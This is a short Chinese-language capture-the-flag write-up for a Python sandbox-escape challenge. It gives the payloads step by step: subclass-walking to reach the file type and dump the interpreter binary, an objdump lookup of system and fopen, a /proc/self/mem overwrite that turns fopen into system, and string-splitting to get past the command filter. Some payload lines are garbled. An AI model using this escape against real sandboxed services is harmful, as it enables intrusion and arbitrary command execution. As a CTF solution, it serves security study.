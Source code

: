 # Run

## 解题思路

> nc连上得知是一个python环境沙箱,是要逃逸getshell.

> 上来一通fuzz之后,发现七七八八的全部被ban,而通过()基类中的file 可以进行文件读取

> 通过('/usr/bin/python','r').read()把python进程dump下来

```
echo "print ().__class__.__bases__[0].__subclasses__()[40]('/usr/bin/python','r').read()"|nc 127.0.0.1 9999 > python
```

> 修复下dump下来的elf文件,objdump分析下

```
objdump -R python|grep -E "system|fopen"
```

> 读取system地址将其写入fopen中,调用fopen即可getshell,还有cat and ls的命令绕过

```
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().class.bases[0].subclasses()[40]( "l'+'s"))(().class.bases[0].subclasses()[40]( "/proc/self/mem','r"),().class.bases[0].subclasses()[40]( "/proc/self/mem', 'w', 0\)\)

5c72a1d444cf3121a5d25f2db4147ebb

bin

cpython.py

cpython.pyc

sandbox.py

\(lambda r,w:r.seek\(0x08de2b8\) or w.seek\(0x08de8c8\) or w.write\(r.read\(8\)\) or \(\).__class__.__bases__\[0\].__subclasses__\(\)\[40\]\('c'+'at5c72a1d444cf3121a5d25f2db4147ebb"))(().class.bases[0].subclasses()[40]("/proc/self/mem','r"),().class.bases[0].subclasses()[40]('/proc/self/mem', 'w', 0))


flag{eee93c33d97aa55f785a7d10ba4ae3ce}
```

## flag

> flag{eee93c33d97aa55f785a7d10ba4ae3ce}
